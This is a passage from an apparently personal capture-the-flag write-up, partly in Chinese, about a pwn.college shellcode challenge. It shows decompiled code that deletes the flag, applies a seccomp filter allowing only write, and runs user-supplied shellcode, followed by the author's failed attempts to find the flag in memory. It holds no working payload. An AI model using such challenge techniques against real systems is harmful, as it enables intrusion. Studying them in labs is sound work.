  puts("You may upload custom shellcode to do whatever you want.\n");
  puts("For extra security, this challenge will only allow certain system calls!\n");
  load_flag();
  unlink("/flag");
  puts("The flag has been deleted!\n");
  v5 = open("/proc/pwncollege", 2);
  printf("Opened `/proc/pwncollege` on fd %d.\n", v5);
  puts(&byte_4022ED);
  if ( mmap((void *)0x31337000, 0x1000uLL, 7, 34, 0, 0LL) != (void *)825454592 )
    __assert_fail("shellcode == (void *)0x31337000", "<stdin>", 0x7Fu, "main");
  printf("Mapped 0x1000 bytes for shellcode at %p!\n", (const void *)0x31337000);
  puts("Reading 0x1000 bytes of shellcode from stdin.\n");
  v6 = read(0, (void *)0x31337000, 0x1000uLL);
  puts("This challenge is about to execute the following shellcode:\n");
  print_disassembly(825454592LL, v6);
  puts(&byte_4022ED);
  puts("Restricting system calls (default: allow).\n");
  v7 = seccomp_init(2147418112LL);
  for ( i = 0; i <= 511; ++i )
  {
    if ( i == 1 )
    {
      printf("Allowing syscall: %s (number %i).\n", "write", 1);
    }
    else if ( (unsigned int)seccomp_rule_add(v7, 0LL, (unsigned int)i, 0LL) )
    {
      __assert_fail("seccomp_rule_add(ctx, SCMP_ACT_KILL, i, 0) == 0", "<stdin>", 0x95u, "main");
    }
  }
  puts("Executing shellcode!\n");
  if ( (unsigned int)seccomp_load(v7) )
    __assert_fail("seccomp_load(ctx) == 0", "<stdin>", 0x9Au, "main");
  MEMORY[0x31337000]();
  puts("### Goodbye!");
  return 0;
}
```

使用 暴力搜索的方法就不行了





‍

‍

然后手动搜了一下

‍

- 停在这里（此时 `load_flag()`​ 和 `unlink("/flag")` 都已执行）



断点打在了这里，然后搜flag 看看



‍

gg 没有flag 了 ，我日



‍

‍

‍

- 后续

‍

‍

‍

‍

‍

## 总结

‍

不知道为啥， level X.1 level X.0 的区别在哪，大部分1都直接用 0 的就可以同
